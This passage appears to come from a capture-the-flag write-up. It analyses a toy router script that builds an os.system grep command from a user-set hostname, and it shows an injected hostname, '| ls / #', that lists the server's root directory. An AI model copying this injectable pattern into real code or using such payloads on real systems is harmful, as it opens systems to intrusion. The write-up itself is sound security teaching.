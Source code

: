Looking at what happen when the router reboot and we see that a command is executed using `os.system`. The command run `cat` to read `/etc/hosts` file, and then use `grep` to take the `hostname` variable value with the `-i` parameter used to "ignore case distinctions in patterns and data".

```python
    elif choice == '2':
        print("Rebooting...")
        sys.stdout.flush()
        time.sleep(30)
        os.system(f'cat /etc/hosts | grep {hostname} -i')
        print('Reboot complete')
```

Here is how i failed, and then how i solved the challenge.

We understand that we can inject commands in the hostname filed by escaping the `cat /etc/hosts | grep` field, by piping it, using semicolon or other similiar way.

We found how to exploit it, now it's time to enumerate and retrieve the flag.

#### Exploitation - Enumerate and Fail

I started by setting an hostname to find the starting point of our flag at the root of the server.

To do this i used `| ls / #`, for an explaination, i used the pipe mark to escape the grep command and write my own command, and ended it with a pound character `#` to make the `-i` grep parameter as a comment.

Command used : `| ls / #`

```bash
=== MENU ===
1. Set hostname
2. Reboot

Choice: 1
Enter new hostname (30 chars max): | ls / #
=== MENU ===
1. Set hostname
2. Reboot

Choice: 2
Rebooting...
Usage: grep [OPTION]... PATTERNS [FILE]...
Try 'grep --help' for more information.
bin
boot
ctf
dev
etc
home
lib
lib64
media
mnt
ohno
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
Reboot complete
```